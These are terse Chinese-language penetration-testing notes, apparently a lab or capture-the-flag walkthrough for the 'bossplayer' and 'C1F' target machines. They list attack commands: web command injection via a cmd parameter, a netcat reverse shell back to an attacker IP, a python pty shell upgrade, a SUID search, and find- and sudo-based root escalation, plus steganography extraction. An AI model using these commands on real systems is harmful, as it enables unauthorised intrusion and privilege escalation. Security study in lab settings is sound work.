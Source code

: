 ## 解码

```
echo 密文 | base64 -d
```

## bossplayer靶机 提权 find

```
命令执行
?cmd=ls
ping ip
dpkg -l | grep nc
nc ip -e /bin/bash 1234 #反弹靶机shell 回撤
nc -lvnp 端口 #shell 与程序 操作系统 交互的页面 这个页面在url中 还是命令行界面中 都是呈现形式不一样

dpkg -l | grep python #检测是否有python
python -c "import pty;pty.spawn('/bin/bash')" #python 交互shell
export TERM=xterm-color #导出全局变量 改变终端颜色
cat /etc/crontab #看定时任务
find / -perm -u=s -type f 2>/dev/null #全局可写文件 suid权限



提权 #GTFOBins 执行文件提权 shell
find . -exec /bin/bash -p \;

uname -a



```



---

## C1F靶机

```
目录扫描要全指定后缀 -x
ssh登录后 换 bash

提权
sudo -l #查看当前用户的权限 
cd /home #看有哪些用户

发现四张图片 下载到本机
scp 用户名@ip:路径 ./

file *.jpeg   查看图片格式
binwalk 查看捆绑
steghide info 查看是否隐写
steghide extract -sf 提取隐写 要有写权限

sudo /bin/bash
```
